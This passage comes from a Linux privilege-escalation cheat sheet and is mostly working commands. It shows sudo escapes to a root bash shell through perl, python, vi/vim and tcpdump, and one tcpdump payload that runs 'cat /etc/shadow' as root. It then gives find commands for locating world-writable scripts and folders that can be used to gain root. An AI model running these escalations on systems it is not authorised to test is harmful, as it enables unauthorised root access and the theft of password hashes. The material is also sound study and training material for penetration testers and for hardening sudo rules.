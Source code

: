 ```text
sudo perl
exec "/bin/bash";
ctr-d
```

```text
sudo python
import os
os.system("/bin/bash")
```

`sh`

`tcpdump`

```text
echo $'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

`vi/vim`

Can be abused like this:

```text
sudo vi
:shell

:set shell=/bin/bash:shell    
:!bash
```

[How I got root with sudo/](https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/)

#### World writable scripts invoked as root <a id="world-writable-scripts-invoked-as-root"></a>

If you find a script that is owned by root but is writable by anyone you can add your own malicious code in that script that will escalate your privileges when the script is run as root. It might be part of a cronjob, or otherwise automatized, or it might be run by hand by a sysadmin. You can also check scripts that are called by these scripts.

```text
#World writable files directories
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null

# World executable folder
find / -perm -o x -type d 2>/dev/null

# World writable and executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null

#World writable files
find / -perm -2 ! -type l -ls 2>/dev/null
```
